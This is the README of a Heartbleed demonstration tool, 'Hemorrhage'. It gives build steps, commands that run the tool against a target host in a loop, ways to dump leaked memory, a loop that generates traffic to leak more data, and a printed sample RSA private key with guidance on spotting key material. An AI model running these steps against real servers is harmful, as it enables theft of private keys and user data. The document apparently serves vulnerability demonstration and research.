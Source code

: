 Hemorrhage
==========

(c) 2014 Mike Shema, [@CodexWebSecurum](https://twitter.com/CodexWebSecurum)

[http://deadliestwebattacks.com/2014/05/09/a-monstrous-confluence/]()

Demonstrate the OpenSSL ["Heartbleed"](https://www.heartbleed.com/) vulnerability.

Refer to LICENSE file for license information.

Motivation
---
Use heartbleed as an excuse to experiment with C++11 and the Boost.ASIO library.

Compilation
---
Prerequisites:

 * Boost installation ([http://www.boost.org/]()).
 * OpenSSL 1.0.1f ([http://www.openssl.org/]()).

Edit the Makefile's BOOSTDIR and OPENSSLDIR path to match your environment.

````
$ make
````

If you wish to try to Boost.ASIO version, then use the asio target.

````
$ make asio
````

Only tested on Mac OS X. Should compile on any Unix-based system without issue. Windows will need some OpenSSL wrangling.

When using boost::asio::ssl, OpenSSL cannot be compiled with ````-DOPENSSL_NO_DEPRECATED````. Otherwise, you'll receive an undefined symbols error for ````_CRYPTO_set_id_callback```` and ````_ERR_remove_state```` at link time.

Collect Data
---
Note that you may have to adjust your LD_LIBRARY_PATH for hemorrhage to find the OpenSSL and Boost.System libraries at run-time.
On Mac OS X you'll need to set the DYLD_LIBRARY_PATH.

````
$ ./hemorrhage web.site | tee err
$ DYLD_LIBRARY_PATH=/opt/boost/libc++/lib/ ./hemorrhage web.site | tee err
````

Use an alternate port.

````
$ ./hemorrhage web.site 8443 | tee err
````

Loop against the target.

````
$ while [ 1 ]; do ./hemorrhage web.site | tee -a err; done
````

Review Output
---
Hemorrhage saves incoming heartbeat traffic to a hemoglo.bin file. This file will always be appended to. Delete it if you wish to start afresh.

````
$ strings hemoglo.bin | sort -u | tee words.txt
$ xxd hemoglo.bin
````


Generate Traffic
---
Maybe you'll find more interesting content if the target is handling more connections.

````
$ while [ 1 ]; do curl --insecure https://web.site/ ; done
````

Example Certificate
---
If you're searching for private key information, you'll be looking for items like prime1 and prime2.

````
$ openssl rsa -text -modulus -in example.key
Private-Key: (512 bit)
modulus:
    00:a3:95:f7:4e:c8:b3:45:c4:4e:85:0b:a6:7d:25:
    ad:f9:d4:c0:f5:52:96:4f:5f:07:86:5a:f4:98:ce:
    6b:7d:5f:e4:1c:22:8c:7b:af:45:bf:78:8d:92:1a:
    20:70:23:3b:03:f6:16:5d:56:49:b7:ce:aa:db:19:
    ca:6b:b5:53:e7
publicExponent: 65537 (0x10001)
privateExponent:
    00:96:ab:27:af:4e:b7:9f:c8:a1:31:75:7b:90:c4:
    c5:aa:d7:c4:29:b0:39:75:3d:67:a6:dd:db:6f:6a:
    a0:22:46:58:57:f4:24:0a:ff:40:72:0c:aa:31:78:
    b5:6e:cb:8c:ab:cb:1c:77:42:74:d8:d4:88:ae:06:
    58:b4:62:2c:31
prime1:
    00:d7:29:1f:1b:09:47:15:0d:21:17:44:9d:09:6a:
    fa:4b:c5:13:c0:39:5e:fb:7d:e7:9c:35:f8:c9:b5:
    1a:30:7d
prime2:
    00:c2:a2:c5:2a:cb:4f:bd:0f:f6:86:e9:01:52:ab:
    35:ff:d4:bf:70:96:16:ed:35:d5:71:1c:ae:3a:45:
    27:47:33
exponent1:
    00:cc:a2:9c:a5:ff:25:ee:fc:a4:bb:57:93:af:d0:
    62:2b:cc:4d:a3:a6:2d:13:2e:45:29:4a:1f:cb:e0:
    05:ff:95
exponent2:
    77:2b:2d:c9:3b:de:40:85:cb:8d:62:90:5a:cb:55:
    2e:a4:55:ea:5b:1b:02:75:d9:8f:7d:dd:f6:f3:6c:
    4f:1d
coefficient:
    50:c7:4a:c3:68:53:5d:f2:2e:39:62:8c:37:43:ba:
    79:a0:64:e2:20:8c:02:22:bf:bb:dc:f5:20:d3:b8:
    7b:d5
Modulus=A395F74EC8B345C44E850BA67D25ADF9D4C0F552964F5F07865AF498CE6B7D5FE41C228C7BAF45BF788D921A2070233B03F6165D5649B7CEAADB19CA6BB553E7
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIBOwIBAAJBAKOV907Is0XEToULpn0lrfnUwPVSlk9fB4Za9JjOa31f5BwijHuv
Rb94jZIaIHAjOwP2Fl1WSbfOqtsZymu1U+cCAwEAAQJBAJarJ69Ot5/IoTF1e5DE
xarXxCmwOXU9Z6bd229qoCJGWFf0JAr/QHIMqjF4tW7LjKvLHHdCdNjUiK4GWLRi
LDECIQDXKR8bCUcVDSEXRJ0JavpLxRPAOV77feecNfjJtRowfQIhAMKixSrLT70P
9obpAVKrNf/Uv3CWFu011XEcrjpFJ0czAiEAzKKcpf8l7vyku1eTr9BiK8xNo6Yt
Ey5FKUofy+AF/5UCIHcrLck73kCFy41ikFrLVS6kVepbGwJ12Y993fbzbE8dAiBQ
x0rDaFNd8i45Yow3Q7p5oGTiIIwCIr+73PUg07h71Q==
-----END RSA PRIVATE KEY-----
````

Other Resources
---
[cloudflare_challenge notes by epixoip](https://gist.github.com/epixoip/10570627).

[heartleech](https://github.com/robertdavidgraham/heartleech) tool.

[Metasploit](http://www.metasploit.com) examples for [server](http://www.rapid7.com/db/modules/auxiliary/scanner/ssl/openssl_heartbleed) and [client](http://www.rapid7.com/db/modules/auxiliary/server/openssl_heartbeat_client_memory). These include additional background references.

[Nmap's](http://nmap.org/download.html) [ssl-heartbleed.nse](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) script.

[SSL Pulse](https://www.trustworthyinternet.org/ssl-pulse/) regarding public SSL/TLS web sites.

